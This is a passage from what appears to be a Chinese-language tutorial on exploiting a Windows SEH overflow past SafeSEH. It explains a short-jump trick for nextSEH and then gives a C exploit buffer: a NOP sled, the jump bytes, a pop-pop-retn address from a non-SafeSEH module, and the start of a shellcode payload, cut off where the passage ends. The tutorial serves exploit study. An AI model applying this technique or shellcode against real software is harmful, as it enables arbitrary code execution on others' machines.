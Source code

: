当retn到nextSEH的时候，因为nextSEH处是`\x90`，所以就顺着滑到shellcode，`cld`开始就是shellcode

但是在滑行的过程中会遇到SEH处填充的内容，所以为了保证没有影响，现在我们来处理一下使滑到shellcode的过程更完美

将nextSEH处的填充内容修改为`\xEB\x0E\x90\x90`

重新编译来看看

其实这句话的意思就是retn到nextSEH的时候加个jmp，跳过下面的SEH，这样我们就完美的跳到shellcode的起始位置执行shellcode了

![](Image/8.png)

现在修改的代码如下
```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\xEB\x0E\x90\x90"//jump
"\x10\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
```